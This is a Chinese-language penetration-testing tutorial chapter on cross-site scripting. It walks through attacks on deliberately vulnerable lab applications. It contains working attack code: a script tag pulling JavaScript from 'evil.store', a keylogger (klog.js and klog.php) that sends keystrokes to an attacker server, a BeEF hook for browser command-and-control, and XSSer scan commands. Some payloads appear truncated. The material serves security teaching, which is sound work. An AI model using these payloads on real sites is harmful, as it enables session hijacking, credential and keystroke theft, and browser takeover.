## 查找和利用跨站脚本（XSS）漏洞

Web 浏览器是一种代码解释器，它接收 HTML 和脚本代码，以有吸引力且有用的格式向用户呈现文档，包括文本、图像和视频剪辑。它允许用户与动态元素交互，包括搜索字段、超链接、表单、视频和音频控件等。

应用程序管理与用户这种动态交互的方式有很多种。在当今的 Web 应用程序中最常见的一种方式是使用客户端脚本代码。这意味着服务器向客户端发送代码，由 Web 浏览器执行。

当用户输入用于确定脚本代码行为，并且该输入未经过适当的验证和清理以防止其包含代码而非信息时，被注入的代码将被浏览器执行，你就会出现跨站脚本（XSS）漏洞。

XSS 是一种代码注入，当脚本代码被添加到用户输入中并被 Web 浏览器作为代码而不是数据处理时就会发生，随后浏览器执行它，从而改变用户看到的页面和/或其功能。

## 跨站脚本概述

名称“跨站脚本”可能与当前定义没有直观联系。这是因为该术语最初指的是一个相关但不同的攻击。在 1990 年代末和 2000 年代初，可以使用 JavaScript 代码从相邻窗口或框架中加载的网页读取数据。因此，恶意网站可以跨越边界与加载在与其域名完全无关的另一个网页上的内容交互。这后来被浏览器开发人员修复了，但攻击名称被继承给了使网页在浏览器中加载和执行恶意脚本而不是从相邻框架读取内容的技巧。

简单来说，XSS 攻击允许攻击者在另一用户的浏览器中执行恶意脚本代码。它可以是 JavaScript、VBScript 或任何其他脚本代码，尽管 JavaScript 是使用最广泛的一种。恶意脚本通过易受 XSS 攻击的网站传递给客户端。在客户端，Web 浏览器将脚本视为网站的合法部分并执行它们。当脚本在受害者浏览器中运行时，它可以强制浏览器执行类似于用户可以执行的操作。脚本还可以使浏览器执行欺诈交易、窃取 cookie 或将浏览器重定向到另一个网站。

一次 XSS 攻击通常涉及以下参与者：

- 执行攻击的攻击者
- 易受攻击的 Web 应用程序
- 使用 Web 浏览器的受害者
- 攻击者想要将浏览器重定向到或通过受害者攻击的第三方网站

让我们看一个攻击者执行 XSS 攻击的例子：

- 1. 攻击者首先使用合法数据测试各种输入字段是否存在 XSS 漏洞。会将数据反射回浏览器的输入字段可能是 XSS 漏洞的候选。以下屏幕截图显示了一个示例，其中网站使用 GET 方法传递输入并将其显示回浏览器：



2. 一旦攻击者找到一个参数注入点，该参数未进行充分或未进行输入验证，他们就必须想办法将包含 JavaScript 的恶意 URL 传递给受害者。攻击者可以使用电子邮件作为传递机制，或通过网络钓鱼攻击诱使受害者查看电子邮件。

3. 电子邮件将包含指向易受攻击的 Web 应用程序的 URL 以及注入的 JavaScript。当受害者点击它时，浏览器会解析 URL 并将 JavaScript 也发送到网站。输入以 JavaScript 的形式被反射到浏览器中；请考虑以下示例：

```
<script>alert('Pwned!!')</script>.
```

完整的 URL 是 http://example.org/hello.php?name=<script>alert('Pwned!!')</script>.

4. alert 方法通常用于演示目的并测试应用程序是否易受攻击。我们将在本章后面探讨攻击者经常使用的其他 JavaScript 方法。

5. 如果 Web 应用程序易受攻击，对话框将会在受害者的浏览器中弹出，如以下屏幕截图所示：



XSS 的主要目标是在受害者的浏览器中执行 JavaScript，但实现方式取决于网站的设计和目的。以下是 XSS 的三大主要类别：

- 持久型 XSS
- 反射型 XSS
- 基于 DOM 的 XSS

### 持久型 XSS

当注入的数据存储在 Web 服务器或数据库中，并且应用程序在未经验证的情况下将其提供回一个或所有用户时，XSS 漏洞被称为持久型或存储型。攻击者如果目标是感染网站的每个访客，就会使用持久型 XSS 攻击。这使攻击者能够大规模利用网站。

持久型 XSS 漏洞的典型目标如下：

- 基于 Web 的讨论论坛
- 社交网络网站
- 新闻网站

**持久型 XSS** 被认为比其他 XSS 漏洞更严重，因为攻击者的恶意脚本会自动注入到受害者的浏览器中。它不需要网络钓鱼攻击来诱使用户点击链接。攻击者将恶意脚本上传到易受攻击的网站，然后在用户正常浏览活动期间将其作为其浏览活动的一部分传递给受害者浏览器。由于 XSS 还可用于从外部站点加载脚本。这在存储型 XSS 中尤其具有破坏性。当注入时，以下代码将查询远程服务器以获取要执行的 JavaScript：

```
<script type="text/javascript"
src="http://evil.store/malicious.js"></script>
```

易受持久型 XSS 攻击的 Web 应用程序示例如下图所示。该应用程序是一个在线论坛，用户可以在其中创建账户并与其他人互动。应用程序将用户资料存储在数据库中以及其他详细信息中。攻击者确定应用程序未能清理评论部分中保存的数据，并利用这一机会向该字段添加恶意 JavaScript。该 JavaScript 被存储在 Web 应用程序的数据库中。在正常浏览期间，当无辜的受害者查看这些评论时，JavaScript 会在受害者的浏览器中执行，然后抓取 cookie 并将其发送到攻击者控制的远程服务器：



最近，持久型 XSS 已被用于互联网上的多个站点，以利用用户的网站作为加密货币挖矿的工作者或形成浏览器僵尸网络。

### 反射型 XSS

**反射型 XSS** 是一种非持久型攻击形式。恶意脚本是受害者向 Web 应用程序发出的请求的一部分，随后应用程序以响应的形式将其反射回来。这看起来可能难以利用，因为用户不会自愿向服务器发送恶意脚本，但有几种方法可以欺骗用户对其自己的浏览器发动反射型 XSS 攻击。

反射型 XSS 大多用于针对性攻击，其中黑客部署包含恶意脚本和 URL 的网络钓鱼电子邮件。或者，攻击可能涉及在公共网站上发布链接并诱使用户点击它。这些方法结合使用 URL 缩短服务来缩短 URL 并隐藏会引起受害者怀疑的冗长、奇怪的脚本，可以以较高的成功率执行反射型 XSS 攻击。

如以下图所示，受害者被诱骗点击一个 URL，该 URL 将脚本传递给应用程序，应用程序随后在未经适当验证的情况下将其反射回来：



### 基于 DOM 的 XSS

第三种 XSS 类型是本地的，直接影响受害者的浏览器。这种攻击不依赖于将恶意内容发送到服务器，而是使用 **文档对象模型（DOM）**，即浏览器用于操作和呈现网页的 API。在持久型和反射型 XSS 中，脚本由服务器包含在响应中。受害者的浏览器接受它，假定它是网页的合法部分，并在页面加载时执行它。在 **基于 DOM 的 XSS** 中，只有服务器提供的合法脚本才会被执行。


越来越多的 HTML 页面并非由服务器按应展示的方式发送，而是通过在客户端下载 JavaScript 并使用配置参数来调整用户所见内容的方式生成。只要页面中的某个元素需要在不刷新整个页面的情况下被更改，就会使用 JavaScript 来完成。一个典型的例子是允许用户更改页面语言或颜色，或调整其中元素的大小的网站。

DOM-based XSS 利用这种合法的客户端代码来执行脚本攻击。DOM-based XSS 最重要的一点是，合法的脚本正在使用用户提供的输入向用户浏览器上显示的网页添加 HTML 内容。

让我们讨论一个 DOM-based XSS 的示例：

- 1. 假设一个网页被创建为根据 URL 中传递的城市名称显示定制内容，URL 中的城市名称也会在用户浏览器的 HTML 网页中显示，如下所示：
  
      `http://www.cityguide.test/index.html?city=Mumbai`
  
- 2. 当浏览器接收到前述 URL 时，它向 `http://www.cityguide.test` 发送请求以接收网页。在用户浏览器上，会下载并运行合法的 JavaScript，该脚本编辑 HTML 页面，将城市名称添加到加载页面的标题顶部作为标题。城市名称取自 URL（本例中为 `Mumbai`）。因此，城市名称是用户可以控制的参数。
  
- 3. 如前所述，DOM-based XSS 中的恶意脚本不会发送到服务器。为实现这一点，会使用 # 号来防止该符号之后的内容被发送到服务器。因此，服务器端代码无法访问它，即使客户端代码可以访问它。
  
  恶意 URL 可能如下所示：
  
  `http://www.cityguide.test/index.html?#city=<script>function</script>`
  
- 4. 当页面加载时，浏览器会执行使用 URL 中的城市名称生成 HTML 内容的合法脚本。在这种情况下，合法脚本会遇到恶意脚本，并将脚本写入 HTML 正文而不是城市名称。当网页被渲染时，脚本会被执行，从而导致 DOM-based XSS 攻击。

下图说明了 DOM-based XSS：



## 使用 POST 方法的 XSS

在之前的示例中，你已经看到了使用 GET 方法将恶意链接传递给受害者或将有效载荷存储在服务器上的用法。虽然在现实生活中攻击可能需要更复杂的设置，但使用 POST 请求的 XSS 攻击也是可能的。

由于 POST 参数是在请求正文中发送而不是在 URL 中，因此使用此方法进行 XSS 攻击需要攻击者说服受害者浏览由攻击者控制的站点。这将向易受攻击的服务器发送恶意请求，服务器将因此向用户做出响应，如下图所示：



## 其他 XSS 攻击向量

通过 POST 或 GET 方法发送的表单参数并不是用于 XSS 攻击的唯一参数。User-Agent、Cookie、Host 以及任何其他信息被反射回客户端的头部值也容易受到攻击，并且容易受到 XSS 攻击，甚至是通过 OPTIONS 或 TRACE 方法。作为渗透测试人员，你需要完全测试请求的所有组件，这些组件由服务器处理并反射回用户。

## 利用跨站脚本

黑客在利用 XSS 漏洞方面非常有创造性，并且随着当前浏览器中 JavaScript 的能力，攻击可能性已经增加。XSS 结合 JavaScript 可用于以下类型的攻击：

- 账户劫持
- 修改内容
- 篡改网站
- 从受害者机器运行端口扫描
- 记录击键并监控用户活动
- 窃取浏览器信息
- 利用浏览器漏洞

触发 XSS 漏洞的方式有很多种，不仅仅是 <script></script> 标签。请参考 OWASP 在以下链接的备忘单：
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

在以下章节中，我们将查看一些实际示例。

## Cookie 窃取

XSS 漏洞的一个直接影响是攻击者可能使用脚本代码窃取有效的会话 cookie，并在 cookie 参数配置不当时劫持用户的会话。

为了收集会话 cookie，攻击者需要运行一个正在监听由注入应用程序发送的请求的 Web 服务器。在最基本的情况下，这可以使用从基本的 Python HTTP 服务器到运行接收和存储 ID 甚至自动执行进一步攻击的应用程序的适当 Apache 或 nginx 服务器来完成。为了演示的目的，我们将使用基本的 Python 服务器。在 Kali Linux 的终端会话中执行以下命令以在端口 8000 上运行服务器：

```
python -m SimpleHttpServer 8000
```

服务器运行后，你将利用 OWASP BWA 虚拟机中包含的 WackoPicko Web 应用程序中的持久性 XSS。浏览 Kali Linux 中的 WackoPicko，并在 Guestbook 表单中提交包含以下代码的评论：

```
<script>document.write('');</script>
```

请注意，127.0.0.1 是 Kali Linux 的本地 IP 地址。它应被替换为设置用于接收 cookie 的服务器的地址：



每次加载 Guestbook 页面时，它都会执行脚本并尝试从外部服务器获取图像。获取此类图像的请求会在 URL 中包含会话 cookie，该 cookie 将被记录在接收服务器上，如以下屏幕截图所示：



## 网站篡改

使用 XSS 篡改网站（更改其视觉外观）并不是一种常见的攻击。尽管如此，它是可以做到的，尤其是在持久性漏洞的情况下，并且即使服务器文件未被更改，也可能对网站被篡改的公司造成严重的声誉损害。

你可以用 JavaScript 以多种方式更改网站的外观。例如，插入 HTML 元素如 div 或 iframe，替换样式值，更改图像源，以及许多其他技术都可以改变网站的外观。你也可以使用 document 的 body 的 innerHTML 属性来替换页面的整个 HTML 代码。

Mutillidae II 有一个 DOM XSS 测试表单，可帮助我们测试这一点。在菜单中，转到 OWASP 2013 | A3 - 跨站脚本 (XSS) | DOM 注入 | HTML5 存储。此演示应用程序将信息保存到浏览器的 HTML5 存储中，并且包含许多漏洞。在这里，我们将重点关注它在元素添加到存储时反射键的事实，如以下屏幕截图所示：



表单具有一定程度的清理，因为 script 标签不会被反射：



经过不同注入字符串的反复试验，你会发现带有不存在源的 img 标签（例如 src 参数）是可行的：

```
Defaced with XSS</h1>'">
```

将该代码设置为新元素的键并单击 Add New 后，会显示以下内容：



如前所述，此类攻击不会更改 Web 服务器上的文件，并且更改仅对运行恶意脚本的用户可见。当利用持久性 XSS 时，篡改可能会影响大量用户，因为攻击者无需像反射和基于 DOM 的 XSS 那样单独针对每个受害者。无论如何，这可能导致用户在认为他们向合法网站提交信息时，将敏感信息提供给攻击者。


## Key loggers

另一种利用 XSS 收集用户敏感信息的方法是将浏览器变成一个键盘记录器，捕获每个按键并将其发送到攻击者控制的服务器。这些按键可能包含用户在页面中输入的敏感信息，例如姓名、地址、密码、密保问题及答案、信用卡信息等，具体取决于易受攻击页面的用途。

我们将使用预装在 Kali Linux 中的 Apache Web 服务器，以便将按键存储到文件中，这样在利用 XSS 后我们就可以检查易受攻击应用程序发送的键。服务器将有两个文件：klog.php 和 klog.js。

klog.php 文件如下所示：

```
<?php
    if(!empty($_GET['k'])) {
        $file = fopen('keys.txt', 'a');
        fwrite($file, $_GET['k']);
        fclose($file);
    }
?>
```

klog.js 文件如下所示：

```
var buffer = [];
var server = 'http://10.7.7.4/klog.php?k='
document.onkeypress = function(e) {
    buffer.push(e.key);
}
window.setInterval(function() {
    if (buffer.length > 0) {
        var data = encodeURIComponent(buffer);
        new Image().src = server + data;
        buffer = [];
    }
}, 200);
```

这里，10.7.7.4 是 Kali Linux 机器的地址，这样受害者就会将缓冲区发送到该服务器。此外，根据系统配置，你可能需要在代码指定的路径中创建 keys.txt 文件。在此示例中，它是 Web 根目录 (/var/www/html/)。另外，添加写权限或将所有权设置为 Apache 的用户，以防止 Web 服务器尝试更新本地文件时出现权限错误：

```
touch /var/www/html/keys.txt
chown www-data /var/www/html/keys.txt
```

这是一个最简单的键盘记录器版本。更复杂的版本可以包括以下内容：

- 捕获的时间戳
- 发送信息的用户或机器标识符
- 将密钥保存到数据库以便于查询、分组和排序
- 控制功能，例如启动和停止键盘记录器、在特定按键或组合时触发操作


在渗透测试期间捕获客户端或用户的信息应尽可能避免，尽管有时为了正确覆盖某些攻击向量是必要的。如果是这种情况，必须在传输、存储和处理此类信息时采取适当的安全措施。如果任何信息发送到渗透测试人员控制的服务器，通信必须使用 HTTPS、SSH 或其他安全协议进行加密。存储也必须加密。推荐使用全盘加密，但在此基础上还需要数据库和文件加密。此外，根据参与规则，可能要求安全擦除所有信息。

再次使用 WackoPicko 的 **Guestbook**，提交以下评论：



这将在每次用户访问 **Guestbook** 页面时加载外部 JavaScript 文件并捕获他们发出的所有按键。你现在可以在页面中输入任何内容，它将被发送到你的服务器。

如果你想查看迄今为止记录的内容，只需查看 Kali Linux 中的 `keys.txt` 文件即可：

```
root@kali:~# cat /var/www/html/keys.txt
th,is is a, t,est, of, jBackspacekeyloggi,ngv,<,><>ArrowLeft,ArrowLeftArrowLeftscriptArrowRightArrowRight,ArrowRightArrowLeft/script,tkeyl,lBackspaceo ,src="ArrowLefthtt,p://,1.7.7.7Backspace4/klog.j,sHomeEndccvKeys presse,d adBackspacefter keylogge,r
```

可以看到，按键在客户端被缓冲并定期发送，因此有长度不一的组以逗号分隔，非打印键则以名称写入：ArrowLeft、ArrowRight、Backspace、Home、End 等。

## 使用 BeEF-XSS 控制用户的浏览器

一种称为浏览器中人攻击 Man-in-the-Browser (MITB) 的攻击使用 JavaScript 将用户的浏览器连接到一个命令与控制 C2 服务器，该服务器使用脚本向浏览器下达指令并从中收集信息。XSS 可用作载体，使用户在访问易受攻击的应用程序时加载此类脚本。攻击者可能执行的操作包括以下内容：

- 读取按键
- 提取浏览器中保存的密码
- 读取 Cookie 和 HTML5 存储
- 启用麦克风和摄像头（可能需要用户交互）
- 利用浏览器漏洞
- 将浏览器用作组织内部网络的跳板
- 控制浏览器标签页和窗口的行为
- 安装恶意浏览器扩展

Kali Linux 包含 Browser Exploitation Framework (BeEF)，这是一个工具，可设置托管 C2 中心以及在 MITB 攻击中由受害者调用的钩子代码的 Web 服务器。

接下来，我们将演示攻击者如何使用 XSS 使客户端（用户浏览器）调用该钩子文件，以及如何利用它在该浏览器上远程执行操作：

1. 首先，你需要在 Kali Linux 中启动 beef-xss 服务。这可以通过应用程序菜单完成：Applications | 13 - Social Engineering Tools | beef xss framework，或通过终端执行如下操作：

```
beef-xss
```

```
root@kali:~# beef-xss
[*] Please wait as BeEF services are started.
[*] You might need to refresh your browser once it opens.
[*] UI URL: http://127.0.0.1:3000/ui/panel
[*] Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
```

如果服务启动正确，你应该能够浏览到控制面板。默认情况下，BeEF 运行在 3000 端口，因此浏览到 http://127.0.0.1:3000/ui/panel 并使用默认用户名和密码登录：beef/beef，如下所示：



2. 攻击者的下一步将是利用持久性 XSS 或诱使用户点击指向恶意站点或易受 XSS 攻击的站点的链接。

现在，作为受害者，前往 Mutillidae (OWASP 2013 | A3 - Cross Site Scripting (XSS) | Reflected (first order) | DNS Lookup) 并在 Hostname/IP 文本框中提交以下内容：

```
<script src="http://10.7.7.4:3000/hook.js"></script>
```



3. 再次，10.7.7.4 是运行 BeEF 的服务器的地址。在此情况下，是你的 Kali Linux 机器。你可以看到结果似乎为空，但如果浏览到你的 BeEF 控制面板，你会看到有一个新的浏览器已连接。在 Details 选项卡中，你可以看到有关此浏览器的所有信息：



4. 如果你进入 Current Browser 中的 Logs 选项卡，你会看到钩子记录了用户在浏览器中执行的所有操作，从点击和按键到窗口或标签页的更改：



5. 在 **Commands** 选项卡中，你可以向受害者浏览器下达命令。例如，在下面的屏幕截图中，请求了一个 Cookie：



## 扫描 XSS 漏洞

由于存在数百种可能的载荷变体，并且是 Web 应用程序中最常见的漏洞之一，XSS 有时难以发现，或者即使发现，也难以生成令人信服的概念验证利用来促使客户团队投入时间和精力进行修复。此外，拥有数百或数千个输入参数的大型应用程序在时间受限的测试中几乎不可能完全覆盖。

出于这些原因，你可能需要使用自动化来更快地生成结果，即使牺牲了一定程度的精确度并增加了触发应用程序服务中断的风险。存在许多 Web 漏洞扫描器，既有免费也有付费的，准确性、稳定性和安全性各不相同。我们现在将回顾几种专门用于 XSS 漏洞的扫描器，已被证明高效可靠。

## XSSer

**Cross Site "Scripter" (XSSer)** 是一个自动框架，旨在检测、利用和报告 Web 应用程序中的 XSS 漏洞。它包含在 Kali Linux 中。

XSSer 可以检测持久性、反射性和基于 DOM 的 XSS，扫描指定的 URL 或根据给定查询搜索 Google 以寻找潜在目标，通过不同机制进行身份验证，并执行许多其他任务。


让我们尝试使用 BodgeIt's 搜索请求作为目标进行一次简单的扫描。要做到这一点，在 Kali Linux 的终端中输入以下命令：

```
xsser -u http://10.7.7.5/bodgeit/search.jsp -g ?q=
```

这里，XSSer 在 -u 参数指定的 URL 上运行，并使用 GET 方法和 q 参数 (-g ?q=) 进行扫描。这意味着扫描器会将其有效载荷附加到 -g 之后指定的字符串上，并且结果会作为 GET 请求附加到 URL 上。运行命令后，你会看到结果显示该 URL 对 XSS 存在漏洞：

```
root@kali:~# xsser -u http://10.7.7.5/bodgeit/search.jsp -g ?q=
socket busy, retry opening
================================================================================
XSSer v1.7b: "ZiKA-47 Swarm!" - 2011/2016 - (GPLv3.0) -> by psy
================================================================================
Testing [XSS from URL]...
================================================================================
[Info] HEAD alive check for the target: (http://10.7.7.5/bodgeit/search.jsp) is OK(200) [AIMED]
================================================================================
Target: http://10.7.7.5/bodgeit/search.jsp --> 2017-11-17 01:03:51.178002
================================================================================

[-] Hashing: 54268d18747e4f841c28066b151e96d3
[+] Trying: http://10.7.7.5/bodgeit/search.jsp?q=">54268d18747e4f841c28066b151e96d3
